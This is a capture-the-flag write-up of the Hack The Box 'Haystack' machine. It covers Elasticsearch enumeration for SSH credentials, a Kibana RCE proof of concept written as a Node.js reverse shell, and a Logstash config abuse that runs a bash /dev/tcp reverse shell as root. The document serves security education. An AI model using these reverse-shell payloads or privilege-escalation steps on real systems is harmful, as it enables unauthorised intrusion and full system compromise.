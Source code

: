 # Hack The Box: Haystack machine write-up

Although rated as easy, this machine could have perfectly been a medium machine. It is all based around the ELK stack: Elasticsearch - Logstash - Kibana, which are three open source projects used together in log analytics. Extracted from their webpage:

> Elasticsearch is a search and analytics engine. Logstash is a server‑side data processing pipeline that ingests data from multiple sources simultaneously, transforms it, and then sends it to a "stash" like Elasticsearch. Kibana lets users visualize data with charts and graphs in Elasticsearch.

On our first contact with the machine we find an ``elasticsearch`` instance, which we need to query to get some credentials and log in through SSH. Then, once inside, we recon and find out that there is a ``kibana`` instance running locally that can be exploited in order to pivot to another user. Again, doing recon with this new user shows us that there is a ``logstash`` service running as root which we can use to execute arbitrary commands. Quite fun!

Let's dig in! The IP of the machine is ``10.10.10.115``.

### Enumeration

As always, we start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```sh
# Nmap 7.70 scan initiated Thu Jul  4 13:16:19 2019 as: nmap -sV -sC -oN nmap/initial 10.10.10.115
Nmap scan report for 10.10.10.115
Host is up (0.050s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
| http-methods:
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  4 13:16:38 2019 -- 1 IP address (1 host up) scanned in 19.22 seconds
```

We can see that there is SSH on the usual port and two http servers on port 80 and 9200. I started by taking a look at port 80.

#### Port 80 enumeration

Upon visiting the website I just find a picture. I didn't even take a look at it at first, but I should have as reading other reports I found out it had some strings on it:

*Image found on port 80*

![Img](images/needle.png)

*Strings found on the image*

![Img](images/strings.png)

So that can be a keyword, "clave" (key), that we'll need to use later.

#### Port 9200 enumeration

First thing we see when we access it is a weird JSON response I had never seen:

*JSON response*

![Img](images/json.png)

I googled it and came to the conclusion that it was an ``Elasticsearch`` instance, so I started to query it. There were different indices. Basically, we can think of indices as databases in relational databases:

- MySQL => Databases => Tables => Columns/Rows
- Elasticsearch => Indices => Types => Documents with Properties

These are the indices I found:

*Indices found on the kibana instance*

![Img](images/indices.png)

Given that the box is called ``Haystack``, I figured I should query the ``quotes`` index and look for something that stands out.

As I was a noob in ``Elasticsearch`` my method was not too effective and so given that I found out that I could access a document through this URL, ``http://10.10.10.115:9200/quotes/quote/NUMBER``, what I did was write some quick Python that would iterate over all of the quotes looking for some specific strings. I looked for ``key``, ``pass`` and ``:``, when I finally saw among different quotes some base64-encoded data. Good, I had it! I found two pieces of data, a username and a password: ``security:spanish.is.key``. Interestingly, I ended up using "clave" in my Python code to filter the results and get only those documents (I should have known that if I had used strings on the image), as it was the only repeated word in the two messages and not everywhere else.

*Getting the needle on the haystack*

![Img](images/pycode.png)

After rooting the box and reading other reports I also found out I could just have used the following url to get the two messages instantly, which would have been so much quicker.

```
http://10.10.10.115:9200/quotes/_search?q=clave
```

*Easier way of finding the data*

![Img](images/quotes.png)

#### From user to yet another user

With those credentials I was able to log in through SSH and read ``user.txt``:

*Getting user*

![Img](images/user.png)

Then, I started enumerating with ``LinEnum.sh`` and also listing internal services running on the box with ``ss -lntpu``.

We find that there is a ``Kibana`` instance running on port 5601:

*Finding the web app locally*

![Img](images/local.png)

So in order to access it from our machine we can port forward that port through SSH with the following command:

```
ssh -L 5601:localhost:5601 security@10.10.10.115
```

Then, we just access port 5601 on our machine:

*Using port forwarding to access the ``Kibana`` instance*

![Img](images/kibana1.png)

![Img](images/kibana2.png)

Looking at the version and checking if it's vulnerable I find that there is a CVE for it with an available POC:

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "10.10.14.47", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```


The vulnerability lies in a RCE that we can exploit to pivot to user `kibana`. I ran the exploit by placing the shell on the ``/tmp`` directory and `curl`\`ing it:

*Getting the reverse shell as `kibana`*

![Img](images/exploit.png)

![Img](images/kibana_shell.png)

#### From another user to root

Once as `kibana` we just enumerate more and find that we can access a directory that we couldn't access before: ``/etc/logstash/conf.d``. Good, we have access to `logstash` configuration files: ``input.conf``, ``output.conf`` and ``filter.conf``.

Besides, we can also see that there is a process running it continously and as root! Looks like we found our way to root.

*Finding the process with ``ps aux``*

![Img](images/logstash_recon.png)

I'll now explain what each of the configuration files does:

- ``input.conf``: takes all the files that start with ``logstash_`` from ``/opt/kibana/`` and marks them as type "execute" every 10 seconds.

*input.conf file*

![Img](images/input_conf.png)

- ``filter.conf``: takes all "execute" files and if they match the regex it stores them in a variable called ``comando``. The regex is simply: ``Ejecutar comando : whatever``. From github (https://github.com/elastic/logstash/blob/v1.4.2/patterns/grok-patterns) we can see that the GREEDYDATA matches everything once or more (/.*/).

*filter.conf file*

![Img](images/filter_conf.png)

- ``output.conf``: executes the ``comando`` variable specified in the filter phase.

*output.conf file*

![Img](images/output_conf.png)

Hence, to get a shell I just wrote the following to a file:

```sh
echo "Ejecutar comando : bash -i >& /dev/tcp/10.10.13.52/8001 0>&1" > logstash_d
```

*Getting root*

![Img](images/root.png)

This box is a really nice way of getting to know ELK, many thanks to the author! I hope you enjoyed this writeup!

---

*Diego Bernal Adelantado*
